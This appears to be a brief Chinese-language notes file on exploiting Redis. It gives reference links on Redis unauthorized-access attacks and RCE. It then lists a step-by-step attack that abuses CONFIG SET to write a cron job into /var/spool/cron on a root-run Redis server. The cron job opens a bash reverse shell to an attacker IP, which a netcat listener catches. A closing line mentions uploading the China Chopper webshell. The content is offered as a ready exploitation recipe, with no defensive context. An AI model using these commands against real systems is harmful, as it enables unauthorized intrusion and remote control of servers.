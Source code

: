 redis 漏洞利用
https://github.com/antirez/redis/issues/3594
https://webcache.googleusercontent.com/search?q=cache:6c-N8GHMMdIJ:https://www.jianshu.com/p/b8009a6772cf+&cd=6&hl=en&ct=clnk&gl=sg&client=firefox-b-d

redis利用姿势收集 https://phpinfo.me/2016/07/07/1275.html
对一次 redis 未授权写入攻击的分析以及 redis 4.x RCE 学习 https://www.k0rz3n.com/2019/07/29/对一次 redis 未授权写入攻击的分析以及 redis 4.x RCE 学习/
配置漏洞之redis未授权访问 https://uknowsec.cn/posts/skill/配置漏洞之redis未授权访问.html
https://xz.aliyun.com/t/2240

反弹shell
靶机用root启动redis
攻击机
```
apt-get install redis -y
redis-cli -h 192.168.207.3
CONFIG SET dir /var/spool/cron
CONFIG SET dbfilename root
set payload "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.207.4/9999 0>&1\n\n"
Save
Exit
nc -l -p 9999
```
上传中国菜刀

